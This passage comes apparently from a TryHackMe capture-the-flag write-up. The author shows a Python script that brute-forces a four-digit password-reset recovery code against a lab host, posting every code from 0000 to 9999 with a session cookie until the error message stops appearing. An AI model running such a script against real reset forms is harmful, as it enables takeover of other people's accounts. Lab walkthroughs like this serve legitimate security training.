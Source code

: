 ![7](/assets/img/tryhackme/ctf/hammer/7.png)

Once again, I tried to bruteforce my way through using a **Python script** and find the recovery code. It will try all the different combinations of recovery code possible on 4 digits.

```python
import requests

# Target URL
url = "http://10.10.141.73:1337/reset_password.php"

# Headers with session cookie
headers = {
    "Host": "10.10.141.73:1337",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://10.10.141.73:1337",
    "Referer": "http://10.10.141.73:1337/reset_password.php",
    "Cookie": "PHPSESSID=fq0f19f1o8377hhtb4aclp3oib",  # Replace with your session cookie
    "Connection": "keep-alive",
    "Upgrade-Insecure-Requests": "1"
}

# Iterate over all possible 4-digit codes
for code in range(10000):
    recovery_code = f"{code:04}"  # Format as 4-digit number (e.g., 0001, 0023)
    data = {
        "recovery_code": recovery_code,
        "s": "180"  # Fixed value for 's' parameter
    }

    # Send POST request
    response = requests.post(url, headers=headers, data=data)

    # Check response content
    if "Invalid or expired recovery code!" not in response.text:
        print(f"[+] Recovery code found: {recovery_code}")
        print("[+] Response from server:", response.text)
        break
```